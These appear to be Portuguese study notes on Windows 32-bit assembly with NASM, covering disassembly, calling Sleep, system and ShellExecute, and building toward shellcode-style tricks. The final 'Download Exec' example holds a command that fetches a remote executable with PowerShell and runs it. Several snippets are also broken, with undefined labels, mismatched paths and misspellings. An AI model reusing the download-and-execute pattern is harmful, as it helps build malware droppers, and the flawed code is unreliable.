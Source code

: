 ## Praticando com Assembly

Utilizando assembly para copilar o codigo para win32

`nasm -f win32 file.asm`

Comando de desasembly na sintaxe da intel

`objdump -d -M intel file.obj`

Comando de desasembly na sintaxe da AT&T

`objdump -d file.obj`

Linkando 

`golink /entry_main file.obj`


## Programando em Assembly no Windows

**DEV C++**

```
# include <synchapi.h>

int main(){
  Sleep(4000);
}

```
**F7** - Comando para executar linha por linha do Imunity debugger.

Comando para identificar de uma função de um DLL atraves do nome da dll

**CMD** 

Exemplo: `arwin Kernel32.dll Sleep`

**NotePad**

aguarda.asm

```
global _main

section .text

_main:
    xor eax, eax
    mov eax, 9000
    push eax
    mov ebx, 0x754d9010
    call ebx
```    

## Executando comandos SO em Assembly

Exemplo de abertura do cmd através de um software feito em assembly.

**teste.asm**

```
extern system
global _main

section .text

_main:
  push 0x00657865 ;00exe
  push 0x2e646d63 ;.cmd
  push esp
  pop eax
  push eax
  mov ebx, 0x76453dc0 ; system
  call ebx
```

`nasm -f win32 teste.asm`

`golink /console /entry _main teste.obj msvcrt.dll`

  
## API do Windows em Assembly

teste2.c

```
#include <windows.h>

int main (){
  ShellExecute(handle, "find", <fully_qualified_path_to_folder>, NULL, NULL, 0);
}
```


teste2.asm

```
extern _MessageBoxA
global _main

section .data
  texto db "www.site.com",0
  titulo db "Keep Learning",0
  
section .text
_main:
  push 0
  push titulo
  push texto
  push 0
  call _MessageBoxA 
```

**CMD**

`nasm -f win32 teste2.asm`

`golink /console /entry _main teste.obj msvcrt.dll`

`teste2.exe`

## ShellExecute em Assembly no Windows

Referência:

https://docs.microsoft.com/en-us/windows/win32/api/shellapi/nf-shellapi-shellexecutea


teste3.c

```
#include <windows.h>

int main (){
  ShellExecute(0, "open", "cmd", 0, 0, 0);
}
```

teste3.asm

```
extern _ShellExecuteA
global _main

section .data
  texto db "open",0
  titulo db "cmd",0
  
section .text
_main:
  push 5
  push 0
  push 0
  push cmd
  push tipo
  push 0
  call _sHELLeXECUTEA 
```

**CMD**

`nasm -f win32 teste3.asm`

`golink /console /entry _main teste3.obj Shell32.dll /mix`

`teste3.exe`


## Criando um Download Exec em Assembly

teste4.asm

```
extern _ShellExecuteA
global _main

section .data
  texto db "open",0
  titulo db "cmd",0
  par db "/c poweshell -Command wget 'http://site.com/file.exe'' -OutFile c:\windows\temp\teste.exe ; c:\Users\Usuario\teste.exe", 0
  
section .text
_main:
  push 0
  push 0
  push par
  push cmd
  push tipo
  push 0
  call _sHELLeXECUTEA 
```

**CMD**

`nasm -f win32 teste4.asm`

`golink /console /entry _main teste4.obj Shell32.dll /mix`

`teste4.exe`


## Monitorando APIs do Windows

Ferramenta para analisar o que esta sendo utilizado de instrução dentro de uma aplicação.

Tool: Api Monitor








**Referência:**

https://docs.microsoft.com/en-us/windows/win32/api/synchapi/


